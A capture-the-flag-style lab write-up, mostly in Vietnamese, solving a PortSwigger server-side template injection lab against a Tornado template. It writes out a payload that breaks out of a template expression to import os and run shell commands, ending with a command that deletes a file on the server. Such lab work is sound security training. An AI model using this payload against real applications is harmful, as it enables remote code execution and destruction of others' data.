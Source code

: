 # [Lab: Basic server-side template injection (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)
**Lab Solved**

## Lab

This lab is vulnerable to  [server-side template injection](https://portswigger.net/web-security/server-side-template-injection)  due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the  `morale.txt`  file from Carlos's home directory.

You can log in to your own account using the following credentials:  `wiener:peter`

**Hint**

Take a closer look at the "preferred name" functionality.

## Analysis

Nghịch một lượt các tính năng thấy có dấu hiệu của template ở chức năng chỉnh sửa tên hiển thị:
![58da01cb101e4da64194c8ce45ad21ef.png](../../../../../../_resources/58da01cb101e4da64194c8ce45ad21ef.png)

Tên người dùng hiển thị ở comment sẽ thay đổi dựa vào tùy chọn này.

## Exploit

Đề bài cho đã cho biết đây là thằng tornado, python.

Cú pháp của tornado kiểu:
- lệnh `{%...%}`
- expression `{{}}` (tornado không cho phép empty expression)

input của mình khả năng được đưa thẳng vào expression của tornado, do đó nếu nhập payload là:
```
123}}{%import os%}{{os.system('ls')
```
thì sẽ thành:
```
{{123}}{%import os%}{{os.system('ls')}}
```
ở phía server.

Kết quả:
![0b98bbaa4dbb2d3a9060726c16c4a0bf.png](../../../../../../_resources/0b98bbaa4dbb2d3a9060726c16c4a0bf.png)
![9fffa7585ff22f18d0183969e7d8fda6.png](../../../../../../_resources/9fffa7585ff22f18d0183969e7d8fda6.png)

Thay lệnh `ls` thành `rm morale.txt`, với kí tự space url encode thành `%20`. Kết quả, sau khi load trang sản phẩm , phía server sẽ xử lý template và thực thi code.

Done.
## References
python
tornado: https://www.tornadoweb.org/en/stable/guide/templates.html

